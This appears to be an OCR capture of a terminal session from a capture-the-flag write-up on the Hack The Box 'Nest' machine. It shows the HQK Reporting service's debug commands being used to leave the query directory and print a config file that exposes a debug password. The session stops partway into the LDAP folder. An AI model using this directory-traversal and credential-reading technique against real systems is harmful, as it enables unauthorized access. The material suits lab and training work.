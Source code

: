 ```

>service

--- HQK REPORTING SERVER INFO ---

Version: 1.2.0.0
Server Hostname: HTB-NEST
Server Process: "C:\Program Files\HQK\HqkSvc.exe"
Server Running As: Service_HQK
Initial Query Directory: C:\Program Files\HQK\ALL QUERIES

>session

--- Session Information ---

Session ID: f5d4ced8-5de2-4fb4-80f7-84cebfea6538
Debug: True
Started At: 6/14/2020 9:53:05 AM
Server Endpoint: 10.10.10.178:4386
Client Endpoint: 10.10.14.253:51630
Current Query Directory: C:\Program Files\HQK\ALL QUERIES

>setdir ..

Current directory set to HQK
>list

Use the query ID numbers below with the RUNQUERY command and the directory names with the SETDIR command

 QUERY FILES IN CURRENT DIRECTORY

[DIR]  ALL QUERIES
[DIR]  LDAP
[DIR]  Logs
[1]   HqkSvc.exe
[2]   HqkSvc.InstallState
[3]   HQK_Config.xml

Current Directory: HQK
>showquery 1

File over size limit. Are you sure this is a HQK query file?
>showquery 3

<?xml version="1.0"?>
<ServiceSettings xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
  <Port>4386</Port>
  <DebugPassword>WBQ201953D8w</DebugPassword>
  <QueryDirectory>C:\Program Files\HQK\ALL QUERIES</QueryDirectory>
</ServiceSettings>

>setdir ldap

Current directory set to ldap
>list

Use the query ID numbers below with the RUNQUERY command and the directory names with the SETDIR command

 QUERY FILES IN CURRENT DIRECTORY

```